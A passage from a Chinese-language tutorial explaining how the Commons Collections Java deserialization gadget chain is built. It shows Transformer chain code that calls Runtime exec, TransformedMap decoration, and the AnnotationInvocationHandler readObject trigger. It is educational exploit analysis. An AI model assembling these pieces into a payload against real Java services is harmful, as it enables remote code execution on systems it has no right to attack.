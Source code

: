 既然第2、3步这么绕，我们又知道了为什么，是不是可以考虑用下面这种逻辑更清晰的方式来构造呢：

```java
Transformer[] trans = new Transformer[] {
        new ConstantTransformer(Runtime.getRuntime()),
        new InvokerTransformer("getRuntime", new Class[0], new Object[0]),
        new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { cmd })};
```

答案是不行的。虽然单看整个链，无论是定义还是执行都是没有任何问题的，但是在后续序列化时，由于`Runtime.getRuntime()`得到的是一个对象，这个对象也需要参与序列化过程，而`Runtime`本身是没有实现`Serializable`接口的，所以会导致序列化失败。

也有同学可能看过ysoserial构造的Payload，它的习惯是先定义一个包含『无效』`Transformer`的`ChainedTransformer`，等所有对象装填完毕之后再利用反射将实际的数组放进去。这么做的原因作者也在一个[Issue](https://github.com/frohoff/ysoserial/issues/32)中给了解释，我们直接看原文：

> Generally any reflection at the end of gadget-chain set up is done to "arm" the chain because constructing it while armed can result in premature "detonation" during set-up and cause it to be inert when serialized and deserialized by the target application.

现在，有了这条`Transformer`链，就等着谁来执行它的`transform()`了。

网上流传的示例很多都是使用一个名为`TransformedMap`的装饰器来触发`transform()`，它在装饰时会传入原始`Map`、一个键转换器`Transformer`和一个值转换器`Transformer`，而它的父类在内部实现了一个`AbstractMapEntryDecorator`的子类，会在`setValue()`前调用`checkSetValue()`进行检查，而`TransformedMap.checkSetValue()`会调用它的值转换器的`transform()`，因此装饰任意一个有元素的`Map`就可以满足需求：

```java
Map m = TransformedMap.decorate(new HashMap(){{ put("value", "anything"); }}, null, chain);
```

这时，我们只需要再找一个包含可控`Map`字段，并会在反序列化时对这个`Map`进行`setValue()`或`get()`操作的公共对象。

幸运的是，前辈们在JDK较早的版本中发现了`AnnotationInvocationHandler`这个对象 *（较新版本的JDK可以使用`BadAttributeValueExpException`，在这里就不展开了）* ，它在初始化时可以传入一个`Map`类型参数赋值给字段`memberValues`，`readObject()`过程中如果满足一定条件就会对`memberValues`中的元素进行`setValue()`：

```java
private void readObject(java.io.ObjectInputStream s)
    s.defaultReadObject();

    AnnotationType annotationType = null;
    try {
        annotationType = AnnotationType.getInstance(type);
    } catch(IllegalArgumentException e) {
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map<String, Class<?>> memberTypes = annotationType.memberTypes();

    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) ||
                    value instanceof ExceptionProxy)) {
                memberValue.setValue(
                    new AnnotationTypeMismatchExceptionProxy(
                        value.getClass() + "[" + value + "]").setMember(
                            annotationType.members().get(name)));
            }
        }
    }
}
```
